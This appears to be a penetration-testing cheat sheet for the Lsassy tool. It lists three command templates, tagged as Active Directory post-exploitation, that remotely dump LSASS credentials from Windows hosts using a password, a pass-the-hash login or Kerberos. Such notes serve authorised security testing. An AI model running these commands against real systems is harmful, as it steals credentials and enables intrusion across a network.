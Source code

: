 # Lsassy

## Lsassy basic usage with password (ip or range)
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -k <ip_range>
```
